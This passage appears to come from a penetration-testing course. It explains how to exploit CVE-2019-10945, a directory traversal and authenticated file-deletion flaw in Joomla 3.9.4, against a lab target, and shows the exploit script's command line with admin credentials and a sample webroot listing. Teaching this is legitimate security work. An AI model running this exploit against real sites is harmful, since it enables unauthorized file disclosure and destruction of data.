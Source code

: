 ## Leveraging Known Vulnerabilities

At the time of writing, there have been [426](https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html) Joomla-related vulnerabilities that received CVEs. However, just because a vulnerability was disclosed and received a CVE does not mean that it is exploitable or a working public PoC exploit is available. Like with WordPress, critical vulnerabilities (such as those remote code execution) that affect Joomla core are rare. Searching a site such as `exploit-db` shows over 1,400 entries for Joomla, with the vast majority being for Joomla extensions.

Let's dig into a Joomla core vulnerability that affects version `3.9.4`, which our target `http://dev.inlanefreight.local/` was found to be running during our enumeration. Checking the Joomla [downloads](https://www.joomla.org/announcements/release-news/5761-joomla-3-9-4-release.html) page, we can see that `3.9.4` was released in March of 2019. Though it is out of date as we are on Joomla `4.0.3` as of September 2021, it is entirely possible to run into this version during an assessment, especially against a large enterprise that may not maintain a proper application inventory and is unaware of its existence.

Researching a bit, we find that this version of Joomla is likely vulnerable to [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945) which is a directory traversal and authenticated file deletion vulnerability. We can use [this](https://www.exploit-db.com/exploits/46710) exploit script to leverage the vulnerability and list the contents of the webroot and other directories. The python3 version of this same script can be found [here](https://github.com/dpgg101/CVE-2019-10945). We can also use it to delete files (not recommended). This could lead to access to sensitive files such as a configuration file or script holding credentials if we can then access it via the application URL. An attacker could also cause damage by deleting necessary files if the webserver user has the proper permissions.

We can run the script by specifying the `--url`, `--username`, `--password`, and `--dir` flags. As pentesters, this would only be useful to us if the admin login portal is not accessible from the outside since, armed with admin creds, we can gain remote code execution, as we saw above.

```shell
python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /

# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: [email protected]
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945
 _    _          ____   ____   ____  ____
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ <
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
```